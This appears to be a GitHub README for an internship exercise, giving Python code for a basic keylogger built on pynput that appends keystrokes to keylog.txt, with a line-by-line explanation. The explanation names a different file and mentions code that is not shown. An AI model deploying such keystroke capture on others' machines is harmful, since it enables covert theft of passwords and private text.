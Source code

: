 # PRODIGY_CS_04
Create a basic keylogger program that records and logs keystrokes. Focus on logging the keys pressed and saving them to a file. Note: Ethical considerations and permissions are crucial for projects involving keyloggers.
from pynput import keyboard
This line imports the keyboard module from the pynput library, which is used for monitoring and controlling input devices, such as keyboards and mice.
def keyPressed(key):
    print(str(key))
    with open("keylog.txt", 'a') as logkey:
        try:
           char = key.char
           logkey.write(char)
        except:
            print("Error getting char")

This block defines a function named keyPressed that takes a key parameter. Inside the function, it prints the string representation of the key to the console.
It then opens a file named "keyfile.txt" in append mode ('a') and attempts to get the character representation of the key (key.char).
If successful, it writes the character to the file. If there's an exception (error) during this process, it prints an error message.

The input() function is included to keep the script running indefinitely until the user manually terminates it.

In summary, the code sets up a keylogger using the pynput library, defining a callback function to handle key presses and logging them to a file named "keylog.txt".
The script continues running until the user manually stops it.
